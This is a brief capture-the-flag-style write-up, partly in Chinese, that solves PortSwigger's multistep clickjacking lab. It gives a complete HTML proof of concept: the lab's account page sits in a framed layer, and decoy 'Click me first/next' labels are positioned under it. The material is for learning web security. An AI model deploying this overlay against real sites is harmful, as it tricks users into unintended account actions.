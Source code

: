 ## Lab: Multistep clickjacking

| Dimension | Description                                                              |
| --------- | ------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/clickjacking#multistep-clickjacking |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-multistep          |

這題真的是純考驗 CSS 切版能力～

```html
<html>
  <head></head>
  <body>
    <style>
      html,
      body {
        margin: 0;
        padding: 0;
      }
      iframe {
        position: absolute;
        width: 500px;
        height: 700px;
        z-index: 1;
      }
      #step1 {
        position: absolute;
        top: 485px;
        left: 50px;
        z-index: 0;
      }
      #step2 {
        position: absolute;
        top: 285px;
        left: 192px;
        z-index: 0;
      }
    </style>
    <iframe
      src="https://0aea00c7038e05e581d28e4300920020.web-security-academy.net/my-account"
    ></iframe>
    <div id="step1">Click me first</div>
    <div id="step2">Click me next</div>
  </body>
</html>
```

## 小結

clickjacking 的題目，很快地就結束了，整體來說我覺得都算容易，但實務上我覺得 clickjacking 很難單獨算一個 bug bounty 會收的類型，但也許在滲透測試，這是一個滲透的手段(?

## 參考資料

- https://portswigger.net/web-security/clickjacking

